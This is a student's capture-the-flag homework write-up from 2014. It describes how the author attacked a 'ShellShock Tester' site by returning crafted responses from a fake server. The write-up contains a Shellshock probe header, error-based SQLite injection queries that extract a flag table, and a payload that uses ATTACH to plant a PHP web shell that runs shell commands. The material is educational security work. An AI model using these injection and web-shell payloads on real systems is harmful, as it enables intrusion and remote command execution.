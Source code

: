 ====================
 ShellShock Writeup
====================

:date: 2014-12-16 15:35
:tags: secprog, sqlite, sqli, shellshock, writeup
:category: memo
:slug: shellshock-writeup
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: Security Programming Homework 4-1

Problem Description
===================

The `ShellShock Tester`_ is the website that have some vulnerabilites.
According to the text on the website, the vulnerabilities might not be
ShellShock :(

At the bottom of the website it says "The response will be collected into
database". Maybe SQL injection will work! After trying various types of SQL
injection in that text input field I realized that I'm in the wrong way...

Look Deeper
===========

The ShellShock Tester must send something to the target website to test if it
has bash vulnerability. Using `nc` to see what are sent from the ShellShock
Tester.

.. code-block:: bash

    $ nc -l -p 5566

And it turns out to be the following result:

.. code-block:: text

    GET / HTTP/1.1
    User-Agent: () { :;}; echo 'ShellShockTester_atdog';
    Host: 140.113.235.153:5566
    Accept: */*


Ah-ha! The string ``{ :;}; echo 'ShellShockTester_atdog';`` is a typical method to
test if the bash which is currently using is vulnerable to CVE-2014-6271. A
system which is vulnerable will echo the string "ShellShockTester_atdog".
Similarly, the target website which runs CGI program will return the string if
it is vulnerable. So why don't we build a fake HTTP server to fool the
ShellShock Tester?

Building a simple HTTP server using python module `Flask`_. It returns the
string when the ShellShock Tester queried for the index page. It seems that the 
ShellShock Tester stores the response returned from the target website into its 
database using ``insert``. At the time the type of the database is still unknown.

So I append a single quote right after the string, and the result showed on the
ShellShock Tester is:

.. code-block:: text

    DATABASE Msg: unrecognized token: "'ShellShockTester_atdog'')"

    Response: ShellShockTester_atdog'

Google for the error message, it says that it seems to be SQLite 3. On the other
hand, all error messages will showed means that we can use error-based SQL
injection.

Error-based SQL Injection
=========================

Most of the error-based SQL injection methods are based on MySQL. But this time,
it is SQLite... Fortunately, I found a forum post which talks about SQLite
error-based injection, how lucky!

First, create a virtual table:

.. code-block:: sqlite3

    CREATE VIRTUAL TABLE v1 USING fts3(x);

To know which table and column contain the flag:

.. code-block:: sqlite3

    SELECT * FROM t1 WHERE t1 MATCH '"'||(SELECT sql FROM sqlite_master);

And finally, the flag showed up:

.. code-block:: sqlite3

    SELECT * FROM t1 WHERE t1 MATCH '"'||(SELECT flag FROM oyoyoyoy_____1111flag);

The queries listed above should be embedded into the sophisticatedly crafted
string. Using Python's format string will look like this:

.. code-block:: python

    trick = 'ShellShockTester_atdog\'); {} --'
    inj = 'create virtual table v1 using fts3(x);'
    resp = trick.format(inj)

Inject a Backdoor
=================

Another method to pwn the ShellShock Tester is to place a backdoor in the
directory of the website.

.. code-block:: python

    trick = 'ShellShockTester_atdog\'); {} --'
    inj = 'ATTACH \'./lol.php\' AS lol; CREATE TABLE lol.pwn (dataz TEXT); INSERT INTO lol.pwn (dataz) VALUES (\'<pre><?php system($_GET["cmd"]); ?></pre>\');'
    resp = trick.format(inj)

This will build a backdoor called ``lol.php``. So anyone can visit that page along
with a "GET" argument ``cmd``. The value of ``cmd`` could be any shell command. The
reason is that ``ATTACH`` command will attach a SQLite database. If the database
does not exist, it create the database which is a PHP file. The file's content
contains a short piece of PHP code showed above.

Simply visit the page "http://tor.atdog.tw:8888/lol.php?cmd=ls", it will list
every file in the current directory. And there is the SQLite database! Download
it and grab the flag!

Flag
====

The flag is:

.. code-block:: text

    SecProg{SQL1teInject1on_yoooo}

References
==========

- `Select Queries`__
- `SQLite 3 error-based injection`__
- `SQLite3 Injection Cheat Sheet`__

.. _ShellShock Tester: http://tor.atdog.tw:8888/index.php
.. _Flask: http://flask.pocoo.org
.. __: http://sqlite.awardspace.info/syntax/sqlitepg03.htm
.. __: https://rdot.org/forum/showthread.php?p=26419
.. __: http://atta.cked.me/home/sqlite3injectioncheatsheet

